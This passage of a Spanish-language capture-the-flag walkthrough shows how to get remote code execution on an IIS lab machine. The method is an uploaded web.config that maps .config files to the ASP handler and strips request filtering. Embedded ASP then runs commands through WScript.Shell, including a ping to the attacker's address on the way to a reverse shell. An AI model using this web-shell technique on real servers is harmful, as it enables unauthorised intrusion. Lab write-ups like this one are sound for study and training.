 ```xml
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Lo subimos en la red y controlamos en la routa 
```bash
 http://10.10.10.93/uploadedFiles/web.config 
```


Aqui vemos que el codigo se a ejecutado. Ahora necessitamos ver si podemos ejecutar codigo a nivel de systema.

Buscamos en la pagina [Hacking Dream](https://www.hackingdream.net/search?q=reverse) un one linear que nos permite entablar una reverse
shell con ASP.

La añadimos al web.config y la modificamos.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set co = CreateObject("WScript.Shell")
Set cte = co.Exec("ping 10.10.14.7")
output = cte.StdOut.Readall()
Response.write(output)
%>
-->
```
